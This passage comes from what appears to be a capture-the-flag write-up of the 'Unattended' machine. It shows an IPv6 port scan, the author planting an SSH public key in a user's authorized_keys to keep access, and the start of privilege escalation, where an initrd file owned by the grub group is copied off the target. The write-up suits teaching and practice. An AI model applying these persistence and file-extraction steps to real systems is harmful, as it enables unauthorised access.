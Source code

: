 As expected, I found SSH listening:

```
# nmap -6 -p- dead:beef::250:56ff:feb2:7bc2
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-15 02:34 EDT
Nmap scan report for dead:beef::250:56ff:feb2:7bc2
Host is up (0.0081s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 11.48 seconds
```

I'll add my SSH public keys to guly's SSH directory so I can log back in later:

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+SZ75RsfVTQxRRbezIJn+bQgNifXvjMWfhT1hJzl/GbTbykFtGPTwuiA5NAcPKPG25jkQln3J8Id2ngapRuW8i8OvM+QBuihsM9wLxu+my0JhS/aNHTvzJF0uN1XkvZj/BkbjUpsF9k6aMDaFoaxaKBa7ST2ZFpxlbu2ndmoB+HuvmeTaCmoY/PsxgDBWwd3GiRNts2HOiu74DEVt0hHbJ7kwhkR+l0+6VS74s+7SjP+N1q+oih83bjwM8ph+9odqAbh6TGDTbPX2I+3lTzCUeGS9goKZe05h/YtB2U2VbH1pxJZ1rfR1Sp+SBS+zblO9MUxvbzQoJTHpH2jeDg89 root@ragingunicorn" > .ssh/authorized_keys
```

From here I will use the SSH shell instead so I have a TTY:

```
root@ragingunicorn:~# ssh guly@dead:beef::250:56ff:feb2:7bc2
guly@unattended:~$ id
uid=1000(guly) gid=1000(guly) groups=1000(guly),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),47(grub),108(netdev)
```

### Priv esc

I checked the groups that `guly` is a member of and the `grub` group seemed suspicious to me. According to [https://wiki.debian.org/SystemGroups](https://wiki.debian.org/SystemGroups) this isn't a standard group.

I'll do a search for files owned by the `grub` group and find a single file: `/boot/initrd.img-4.9.0-8-amd64`

```
guly@unattended:~$ find / -group grub 2>/dev/null
/boot/initrd.img-4.9.0-8-amd64
```

I download the file to my Kali VM:

```
# scp -6 guly@\[dead:beef::250:56ff:feb2:7bc2\]:/boot/initrd.img-4.9.0-8-amd64 .
initrd.img-4.9.0-8-amd64

# file initrd.img-4.9.0-8-amd64
initrd.img-4.9.0-8-amd64: gzip compressed data, last modified: Thu Dec 20 22:50:39 2018, from Unix, original size 62110208
```

